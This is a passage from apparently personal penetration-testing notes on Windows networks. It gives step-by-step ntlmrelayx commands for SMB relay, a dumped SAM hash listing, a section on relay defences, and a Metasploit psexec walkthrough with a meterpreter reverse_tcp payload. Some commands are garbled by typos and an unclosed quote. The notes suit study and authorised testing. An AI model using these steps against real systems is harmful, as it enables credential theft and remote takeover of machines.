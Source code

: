 ```bash
```
3. Set up relay: 
```bash
sudo ntlmrelayx.py -tf target.txt -smb2support
```
Hash captured by responder is sent to ntmlrelayx which relays it to the target machines.
4. Event Occurrence: In the file explorer, search for your attacker's IP adderess `\\192.168.138.139`.
5. SAM hash will be dumped.
6. Interactive shell:
```bash
sudo ntlmrelayx.py -tf target.txt -smb2support -i
```
7. Run commands:
```bash
sudo ntlmrelayx.py -tf target.txt -smb2support -c "whoami
```

```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:e2963933876b30e03993e4915401c28f:::
peterparker:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
```

---

>##### SMB Relay Attacks Defence
1. Enable SMB signing on all the devices. Con: can cause performance issue with the file copies.
2. Disable NTLM authentication on network. Con: If Kerberos stops working, Windows defaults back to NTLM (which is bad).
3. Account tiering: Limits domain admin to specific tasks. Con: Enforcing and maintaining the policy may be difficult.
4. Local Admin restriction: Can prevent a lot of lateral movement. Con: Potential increase in the amount of service desk tickets.

---

>## Gaining Shell Access
##### Metaspooit
###### Using Password
1. Metasploit's exploits are available, but they are too noisy, which often gets picked up by detection systems.
* ```bash
msfconsole
```
* ```bash
search psexec
```
Correct one: (/exploit/windows/smb/psexec)
* Set payload to 
```bash
windows/x64/meterpreter/reverse_tcp
```
* Set RHOST, smbdomain, sbmuser, smbpass
* ```bash
show targets
```
change if one doesn't work. 
* "Native Upload" works the best. → 
```bash
run
```
